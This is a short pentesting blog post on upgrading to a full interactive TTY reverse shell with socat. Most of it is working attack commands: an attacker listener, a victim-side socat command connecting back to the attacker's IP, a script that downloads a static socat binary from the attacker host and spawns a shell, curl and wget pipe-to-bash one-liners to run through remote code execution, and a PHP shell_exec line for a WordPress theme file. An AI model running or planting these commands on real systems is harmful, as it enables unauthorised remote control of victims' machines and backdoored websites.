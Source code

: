 ```yaml
---
title: Full TTY Shell with Socat
layout: post
author: hyprcub
tags: trick
---
```


# References

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Statically-linked binaries of various tools](https://github.com/andrew-d/static-binaries)

#  Introduction

This is a quick trick to get a full TTY reverse shell using [socat](http://www.dest-unreach.org/socat/) which is really an awesome tool. There's nothing new, it has already been described on [ropno's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldr-cheatsheet) to some extent. However, I wanted to put it here as a reference, at least for the way I use it most of the time.

# Principles

On the attacker's machine (listening mode):
```bash
sudo socat file:`tty`,raw,echo=0 tcp-listen:443
```
On the victim's machine (sending mode):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:443
```
where `LHOST` has to be replaced with attacker's IP.

# When you have some kind of RCE

1. Start your listener as above.
2. Serve a script file called `socat.sh` via HTTP, containing:
    ```bash
    #!/bin/sh

    LHOST=10.11.31.164 # change this
    LPORT=443 # change this
    DIR=/tmp # maybe also this

    # choose between curl or wget
    curl -q http://$LHOST/socat -o $DIR/socat
    #wget -q http://$LHOST/socat -O $DIR/socat
    chmod +x $DIR/socat
    $DIR/socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:$LHOST:$LPORT
    ```
3. You also have to serve a static version of `socat` you'll find [there](https://github.com/andrew-d/static-binaries/tree/master/binaries).
4. Then, on the victim's machine, via the RCE you discovered:
    ```bash
    curl -q http://LHOST/socat.sh | bash
    ```
    or
    ```bash
    wget -q http://LHOST/socat.sh -O - | bash
    ```
    
In a Wordpress theme PHP file, it could looks like this:
```php
shell_exec("curl -q http://LHOST/socat.sh | bash");
```
